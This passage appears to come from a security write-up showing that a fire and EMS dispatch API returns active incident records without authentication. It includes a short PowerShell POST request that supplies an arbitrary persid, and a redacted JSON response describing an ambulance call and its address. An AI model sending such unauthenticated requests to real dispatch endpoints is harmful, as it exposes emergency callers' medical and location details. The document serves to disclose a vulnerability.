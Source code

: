  If we look below we can see that we provide the following data to the endpoint in the request body in order to receive back a json object referencing the active alarms:

```
persid
fdid
open
```

Interesting, there seems to be no sign of an auth token in the header of the request or anything to validate the user should be allowed to query this data. The only thing that even ties this request to a user if the persid parameter that WE provide. Hmmm, I wonder if we can query this with a random persid? Lets go ahead and throw some powershell together quick to reproduce this request, and while we're at it, lets enter a random persid.

The below PowerShell code (with personal info removed) will go ahead and spit out the data shown:

```powershell
$hostname = "XXXX.rednmx.cloud:8866"
$endpoint = "/dispcall.json/php"
Invoke-RestMethod -Uri ($hostname + $endpoint) -Method POST -Body @{persid=1;fdid=00000;open=1}
```

```json
{
    "dispcall":  [
                     {
                         "dispcallid":  "59402",
                         "nfirsmainid":  "00000",
                         "fdid":  "00000",
                         "incnum":  "2025000111",
                         "datetimealarm":  "01/14/2025 22:05:00",
                         "plastname":  "",
                         "propid":  "9202",
                         "incstat":  "OPEN",
                         "address":  "1 REDACTED LANE",
                         "strnum":  "1",
                         "street":  "REDACTED",
                         "roomapt":  "",
                         "cross1":  "REDACTED",
                         "cross2":  "",
                         "city":  "REDACTED",
                         "state":  "NY",
                         "zip":  "00000-",
                         "sitename":  "",
                         "dispboxcode":  "000",
                         "icon":  "EMS",
                         "abbreviate":  "XXX",
                         "dispcalltypecode":  "16",
                         "dispcalltypedescr":  "16 - Ambulance Call",
                         "dispsubtypedescr":  "Breathing/Respiratory Problem",
                         "latitude":  "0",
                         "longitude":  "0",
                         "expired":  "N",
                         "deptname":  "REDACTED",
                         "nfirsatt":  null
                     }
                 ]
}
```
